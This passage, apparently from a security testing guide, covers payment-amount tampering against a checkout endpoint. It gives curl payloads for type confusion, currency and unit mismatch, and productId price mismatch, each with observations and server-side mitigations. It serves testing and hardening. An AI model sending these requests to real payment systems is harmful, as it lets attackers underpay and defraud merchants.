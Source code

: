 
### 4) Type confusion & alternate encodings
- **What:** change the type/format of `amount` or encode differently (string, scientific notation, padded zeros).
- **Payloads:**
```bash
curl -X POST -H "Content-Type: application/json" -d '{"amount": "403", "productId":123}' https://example.com/pay
curl -X POST -H "Content-Type: application/json" -d '{"amount": 4.03e2, "productId":123}' https://example.com/pay
curl -X POST -H "Content-Type: application/json" -d '{"amount": "00403", "productId":123}' https://example.com/pay
```
- **Observe:** server coerces types differently across layers (e.g., client‑side string vs server numeric parsing), sometimes accepting string and not normalizing.
- **Why:** type coercion bugs can cause bypass when validation only checks type or format.
- **Mitigation:** canonicalize type server‑side (parse string→int cents with strict validation), reject ambiguous types.

---

### 5) Currency mismatch & units confusion
- **What:** submit amounts in minor units vs major units, or mismatch `currency` field.
- **Payloads:**
```bash
curl -X POST -H "Content-Type: application/json" -d '{"amount": 403, "currency":"USD", "productId":123}' https://example.com/pay
curl -X POST -H "Content-Type: application/json" -d '{"amount": 40300, "currency":"cents", "productId":123}' https://example.com/pay
```
- **Observe:** server misinterprets currency units, leading to huge undervaluation/overvaluation; acceptance despite mismatch.
- **Why:** trusting client currency or unit leads to financial loss.
- **Mitigation:** compute/canonicalize units and currency entirely on server; require currency agreement with product pricing.

---

### 6) Price override by referencing productId mismatch
- **What:** keep amount low but change `productId` to a different product or reuse an orderId.
- **Payloads:**
```bash
curl -X POST -H "Content-Type: application/json" -d '{"amount": 1, "productId": 999}' https://example.com/pay
curl -X POST -H "Content-Type: application/json" -d '{"amount": 403, "productId": 456}' https://example.com/pay
```
- **Observe:** server accepts based on client amount rather than looking up product price; or server recalculates and rejects.
- **Why:** if server trusts client amount, attacker can pay less for expensive item.
- **Mitigation:** server must always compute price from `productId` and quantity.

---